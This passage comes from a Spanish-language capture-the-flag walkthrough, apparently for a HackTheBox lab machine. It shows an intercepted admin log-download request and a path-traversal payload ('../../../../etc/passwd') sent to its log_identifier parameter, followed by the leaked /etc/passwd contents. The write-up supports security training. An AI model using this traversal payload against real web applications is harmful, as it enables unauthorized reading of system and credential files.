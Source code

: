 Una vez cambiado y recargada la pagina veremos una opcion llamada `Admin panel`, si entramos dentro veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-04 091444.png" alt=""><figcaption></figcaption></figure>

Vemos que podemos descargarnos un archivo, vamos a capturar la peticion con `BurpSuite` para ver que esta pasando por detras, si le damos a descargar y la interceptamos...

```
GET /admin/get_system_log?log_identifier=admin%40imagery.htb.log HTTP/1.1
Host: 10.10.11.88:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://10.10.11.88:8000/
Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aODJBQ.FIjiSGV8BLU_ajCsJdIS0UH9Nkk
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Vemos que esta llamando a un parametro en concreto para descargar un archivo, vamos a probar si esto pudiera ser vulnerable a un `LFI` de esta forma:

```
URL = http://<IP>:8000/admin/get_system_log?log_identifier=../../../../etc/passwd
```

Veremos que efectivamente nos descarga un archivo y si lo leemos:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```